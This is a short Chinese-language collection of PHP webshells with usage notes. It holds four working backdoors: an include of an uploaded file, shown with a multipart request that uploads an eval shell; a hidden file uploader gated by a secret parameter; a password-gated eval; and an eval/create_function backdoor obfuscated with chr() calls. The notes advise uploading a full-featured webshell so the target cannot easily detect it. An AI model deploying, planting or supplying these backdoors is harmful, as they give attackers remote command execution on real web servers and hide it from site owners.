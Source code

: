 ```php
<?php @include($_FILES['u']['tmp_name']);  ?>

上传一个木马文件，最好的方式是上传一个大马，这样对方就很难进行测试

请求：
/index.php?c=system('ls');
Content-Type: multipart/form-data; boundary=---------------------------262952846810849
  
-----------------------------262952846810849
Content-Disposition: form-data; name="u"; filename="easy.php"
Content-Type: application/octet-stream

<?php @eval($_GET[c]); ?>
-----------------------------262952846810849--

```

```php
<?php
if($_GET["hackers"]=="2b"){if ($_SERVER['REQUEST_METHOD'] == 'POST') { echo "url:".$_FILES["upfile"]["name"];if(!file_exists($_FILES["upfile"]["name"])){ copy($_FILES["upfile"]["tmp_name"], $_FILES["upfile"]["name"]); }}?><form method="post" enctype="multipart/form-data"><input name="upfile" type="file"><input type="submit" value="ok"></form><?php }?>

用法：
上传木马文件，最好还是上传大马！
```
```php
<?php $s=@$_GET[2];if(md5($s.$s)=="c70d1cfca94435256f2874706af4c3c8")@eval($_REQUEST[$s]); ?>

用法：
get: ?2=moushen
post/get: moushen=system("ls");
```

```php
<?php $_uU=chr(99).chr(104).chr(114);$_cC=$_uU(101).$_uU(118).$_uU(97).$_uU(108).$_uU(40).$_uU(36).$_uU(95).$_uU(80).$_uU(79).$_uU(83).$_uU(84).$_uU(91).$_uU(49).$_uU(93).$_uU(41).$_uU(59);$_fF=$_uU(99).$_uU(114).$_uU(101).$_uU(97).$_uU(116).$_uU(101).$_uU(95).$_uU(102).$_uU(117).$_uU(110).$_uU(99).$_uU(116).$_uU(105).$_uU(111).$_uU(110);$_=$_fF("",$_cC);@$_();?>

等价于：
<?php
$_uU="chr";
$_cC="eval($_POST[1]);";
$_fF="create_function";
$_=create_function("","eval($_POST[1]);");
$_();	// 将上面的语句进行执行

string create_function ( string $args , string $code )
$args是参数("$a,$b,$c")，$code是执行代码，返回的是函数名
要调用时，直接在函数名后面加上()即可。但是需要注意的是，一定不能直接加在create_function之后，需要将其返回给一个变量，然后调用！

使用：
post: 1=system("ls");
```
